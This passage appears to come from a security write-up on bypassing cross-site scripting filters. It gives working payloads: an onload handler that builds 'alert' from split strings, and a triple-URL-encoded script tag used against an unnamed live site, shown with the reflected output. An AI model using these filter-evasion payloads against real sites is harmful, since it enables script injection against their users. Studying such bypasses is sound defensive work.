 so what about returning `window` from a function and then use `[]` on the returned value ? It can be done with an anonymous function :) Of course we still have to split the `alert` word. Here is the final payload:  

```html
<body onload='var x="al";(function(){return window})()[x+"ert"]("XSS")'>
```

Bypass using triple encoding
----------------------------

On a chinese website if I inject `"/>INJECT1><INJECT2` I got half of the reflection:  

```html
<link rel="alternate" media="only screen" href="https://victim/index.php?pageID="/>INJECT1>">
```

A few more tests by appending a closing `<` character or another tag shows that the script is certainly using `strip_tags()`.
If I double encode the `<` character in the URL (meaning I pass the value `"/>INJECT1>%253cINJECT2>`) it doesn't get any better but _surprise motherfucker!_ It seems to evade filters if I triple encode it:  

```html
<link rel="alternate" media="only screen" href="https://victim/index.php?pageID="/>INJECT1><INJECT2>">
```

Now I should be done by passing 
```
"/>%25253cscript>alert(%27XSS%27)%25253c/script>
```

But it turns out that our closing tag is removed and some JS code is appended for whatever reason:  

```html
<script>alert('XSS')var config={"webRoot":"\/","cookieLife":30,---snip---
```

Putting a semicolon or HTML comment should fix the situation, but we bump into another problem this time:  

```html
<script>alert('XSS');">
        <title>---snip---</title>
```

All the code in the script tag must be valid otherwise our `alert` won't be executed. As the presence of a closing tag previously prevented the page from putting a newline let's put it back!  

```html
<script>alert('XSS')//var config={"webRoot":
```

Victory! The final payload was 

```
"/>%25253cscript>alert(%27XSS%27)//%25253c/script>
```

Bypass inside script tag
------------------------
